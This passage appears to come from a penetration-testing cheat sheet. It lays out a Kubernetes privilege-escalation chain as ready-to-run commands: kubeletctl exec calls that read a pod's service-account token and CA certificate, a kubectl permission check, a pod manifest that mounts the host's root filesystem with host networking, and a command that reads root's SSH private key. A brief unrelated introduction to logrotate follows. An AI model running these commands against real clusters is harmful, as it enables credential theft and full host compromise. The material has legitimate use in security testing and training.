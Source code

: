 ### Privilege Escalation

**Kubelet API - Extracting Tokens**
````
$ kubeletctl -i --server <IP> exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee -a k8.token
````
**Kubelet API - Extracting Certificates**
````
$ kubeletctl --server <IP> exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee -a ca.crt
````
**List Privileges**
````
$ export token=`cat k8.token`
$ kubectl --token=$token --certificate-authority=ca.crt --server=https://<IP>:6443 auth can-i --list
````
Pod YAML
````
apiVersion: v1
kind: Pod
metadata:
  name: privesc
  namespace: default
spec:
  containers:
  - name: privesc
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /root
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
       path: /
  automountServiceAccountToken: true
  hostNetwork: true
````
**Creating a new Pod**
````
$ kubectl --token=$token --certificate-authority=ca.crt --server=https://<IP>:6443 apply -f privesc.yaml
$ kubectl --token=$token --certificate-authority=ca.crt --server=https://<IP>:6443 get pods
````
**Extracting Root's SSH Key**
````
$ kubeletctl --server <IP> exec "cat /root/root/.ssh/id_rsa" -p privesc -c privesc
````

## Logrotate

Every Linux system produces large amounts of log files. To prevent the hard disk from overflowing, a tool called logrotate takes care of archiving or disposing of old logs. If no attention is paid to log files, they become larger and larger and eventually occupy all available disk space. Furthermore, searching through many large log files is time-consuming. To prevent this and save disk space, logrotate has been developed. The logs in /var/log give administrators the information they need to determine the cause behind malfunctions. Almost more important are the unnoticed system details, such as whether all services are running correctly.
